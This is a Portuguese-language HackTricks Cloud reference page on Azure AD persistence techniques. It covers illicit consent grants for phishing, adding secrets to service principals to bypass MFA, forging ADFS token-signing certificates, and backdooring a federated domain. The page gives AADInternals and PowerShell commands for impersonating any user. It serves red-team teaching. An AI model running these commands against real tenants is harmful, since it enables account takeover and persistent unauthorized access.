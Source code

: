 # Az - Persistência

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

### Concessão de Consentimento Ilícito

Por padrão, qualquer usuário pode registrar um aplicativo no Azure AD. Assim, você pode registrar um aplicativo (apenas para o inquilino alvo) que precisa de permissões de alto impacto com consentimento de administrador (e aprová-lo se você for o administrador) - como enviar e-mails em nome de um usuário, gerenciamento de funções, etc. Isso nos permitirá **executar ataques de phishing** que seriam muito **frutíferos** em caso de sucesso.

Além disso, você também poderia aceitar esse aplicativo com seu usuário como uma forma de manter o acesso sobre ele.

### Aplicativos e Principais de Serviço

Com privilégios de Administrador de Aplicativos, GA ou um papel personalizado com permissões microsoft.directory/applications/credentials/update, podemos adicionar credenciais (secreto ou certificado) a um aplicativo existente.

É possível **mirar um aplicativo com altas permissões** ou **adicionar um novo aplicativo** com altas permissões.

Um papel interessante para adicionar ao aplicativo seria o **papel de administrador de autenticação privilegiada**, pois permite **reiniciar a senha** de Administradores Globais.

Essa técnica também permite **contornar MFA**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Para autenticação baseada em certificado

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federação - Certificado de Assinatura de Token

Com **privilégios de DA** no AD local, é possível criar e importar **novos certificados de assinatura de token** e **certificados de descriptografia de token** que têm uma validade muito longa. Isso nos permitirá **fazer login como qualquer usuário** cujo ImuutableID conhecemos.

**Execute** o comando abaixo como **DA no(s) servidor(es) ADFS** para criar novos certificados (senha padrão 'AADInternals'), adicioná-los ao ADFS, desativar a rotação automática e reiniciar o serviço:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Então, atualize as informações do certificado com o Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federação - Domínio Confiável

Com privilégios de GA em um locatário, é possível **adicionar um novo domínio** (deve ser verificado), configurar seu tipo de autenticação como Federado e configurar o domínio para **confiar em um certificado específico** (any.sts no comando abaixo) e emissor:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Referências

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Compartilhe truques de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
{% endhint %}
